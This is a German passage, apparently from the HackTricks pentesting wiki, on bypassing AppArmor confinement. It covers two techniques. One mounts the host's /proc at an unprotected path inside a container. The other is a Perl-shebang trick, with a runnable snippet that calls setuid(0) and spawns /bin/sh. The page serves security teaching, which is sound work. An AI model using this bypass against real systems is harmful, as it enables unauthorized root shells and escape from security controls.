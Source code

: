 **AppArmor ist pfadbasiert**, das bedeutet, dass selbst wenn es möglicherweise **Dateien** in einem Verzeichnis wie **`/proc`** **schützt**, wenn Sie **konfigurieren können, wie der Container ausgeführt wird**, könnten Sie das proc-Verzeichnis des Hosts innerhalb von **`/host/proc`** **einbinden** und es **wird nicht mehr von AppArmor geschützt**.

### AppArmor Shebang Bypass

In [**diesem Bug**](https://bugs.launchpad.net/apparmor/+bug/1911431) sehen Sie ein Beispiel dafür, wie **selbst wenn Sie verhindern, dass Perl mit bestimmten Ressourcen ausgeführt wird**, wenn Sie einfach ein Shell-Skript **erstellen**, das in der ersten Zeile **`#!/usr/bin/perl`** **spezifiziert** und Sie **die Datei direkt ausführen**, werden Sie in der Lage sein, alles auszuführen, was Sie wollen. Z.B.:
```perl
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```
{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Unterstützen Sie HackTricks</summary></details>
{% endhint %}
